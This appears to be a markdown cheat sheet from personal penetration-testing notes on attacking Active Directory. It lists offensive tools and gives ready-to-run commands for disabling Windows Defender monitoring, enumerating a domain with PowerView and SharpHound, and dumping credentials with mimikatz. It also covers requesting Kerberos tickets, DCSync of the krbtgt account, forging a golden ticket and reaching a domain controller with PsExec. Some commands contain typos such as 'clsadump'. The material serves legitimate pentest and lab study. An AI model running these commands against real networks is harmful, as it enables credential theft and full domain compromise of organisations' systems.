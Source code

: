 # Active Directory Exploitation

---

[Back to Table of Contents](../cysec)

># Overview
 - Overview
 - Enumeration and Exploitation Tools
 - Genera Exploitation Pathway Examples

---
## AD: General Pathways

A few of the many exploitation pathways:
 - Exploiting a web-app --> lateral movement throughout the network --> domain compromise
 - Exploiting a network/service vulnerability --> lateral movement throughout the network --> domain compromise
 - Exploiting a client-side attack to compromise a user --> later movement --> domain compromise
 - Direct domain compromise and subsequent downstream lateral movement (although machines 
 in which this path was observed were substantially less realistic in my opinion)

---
## AD: Enumeration and Assessment

After gaining access to a machine within an AD network, it is essential to enumerate the environment and
understand the network, the domain, the machines within it, and where the compromised machine stands in relation
to the environment (permissions, groups, routes to admin, etc.).

Enumeration of AD can be done in various ways and many tools exist. Among them, some of the most popular and useful include sharphound/bloodhound, 
powerview, impacket, and of course, powershell.

---
## Useful Resources:
https://wadcoms.github.io/

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

---
## Tools
- ldapmonitor
- rubeus
- kerbrute
- impacket tools
- powerview
- sharphound
- bloodhound
- mimikatz
- pypykatz
- winpeas / windows privescheck

---

### Powerview

Disable Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get Domain Info
```
Get-Domain
Get-DomainController
Get-Domain -Domain domain.local
Get-DomainController -Domain domain.local
Get-DomainUser
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
Invoke-ShareFinder
Invoke-MapDomainTrust
```
---

### Using Bloodhound
File transfer --> download sharphound --> exfiltrate the data --> view data in bloodhound
--> identify valuable accounts or pathways within the domain --> use relevant tools to try to exploit those accounts
and move laterally

```powershell
.\sharphound.exe -c Default, GPOLocalGroup, LoggedOn --zipfilename output
```
---
Use mimikatz to find vulnerable accounts with weak passwords to be used for further exploitation:
```powershell
privilege::debug

sekurlsa::logonPasswords
 ```
---
## Pass the Ticket Example

Identify service principals:
 - Get-UserSPNs.ps1

Request ticket for vulnerable SPN (this can be done with mimikatz or via powershell):

powershell method:
```
Add-Type –AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘SPN'
```

mimikatz method:

```
kerberos::ask /user:spn /domain:domain /password:password /ptt
```

Dump the ticket and use it either crack the hash or as a means to facilitate a pass the ticket attack. 
```powershell
lsaDump::dcsync /user:krbtgt

clsadump::lsa /inject /name:krbtgt

kerberos::golden /domain:domain.com /sid:xxxxxxxxx-xxxxxxxxxx /rc4:xxxxx /user:fake_admin /id:500 /ptt
```

Accessing the DC with Admin privileges:

```
PsExec64.exe \\domain-dc01\ cmd.exe 
```
```
pushd \\domain-dc01\c$
cd \\domain-dc01\c$
```

